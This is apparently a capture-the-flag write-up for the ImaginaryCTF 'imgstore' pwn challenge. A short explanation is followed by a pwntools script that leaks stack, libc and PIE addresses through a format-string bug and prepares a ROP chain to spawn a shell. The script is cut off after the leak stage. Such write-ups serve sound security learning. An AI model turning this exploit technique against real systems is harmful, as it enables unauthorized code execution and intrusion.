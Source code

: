 So we first get all the leaks with fsb. Next, we set up the conditions for a `backdoor`.

A random value is put on the stack, and the value to compare against is put on the bss, but since the addresses are already known, we can make the condition true by just setting them both to zero.

All that's left is to send the ROP to open the shell.

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux', 'split-window', '-h']

TARGET = './imgstore'
HOST = 'imgstore.chal.imaginaryctf.org'
PORT =  1337

elf = ELF(TARGET)
def start():
    if not args.R:
        print("local")
        return process(['./ld-linux-x86-64.so.2', TARGET])
    else:
        print("remote")
        return remote(HOST, PORT)

def get_base_address(proc):
    lines = open("/proc/{}/maps".format(proc.pid), 'r').readlines()
    for line in lines :
        if TARGET[2:] in line.split('/')[-1] :
            break
    return int(line.split('-')[0], 16)

def debug(proc, breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(proc)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    script += "c"
    gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

r = start()
if args.D:
    debug(r, [0x1e14])

# fsb offset: 8

# grab leaks
r.sendlineafter(b'>> ', b'3')
r.sendlineafter(b': ', b'|%p|%25$p|%23$p|%21$p|')
r.recvuntil(b'|')

stack = int(r.recvuntil(b'|', True), 16)
target = stack + 0x26a8

leak = int(r.recvuntil(b'|', True), 16)
base = leak -0x24083
system = base + 0x52290
rdi = base + 0x0019788d
binsh  = base + 0x1b45bd

leak = int(r.recvuntil(b'|', True), 16)
pie = leak - 0x22a3
```
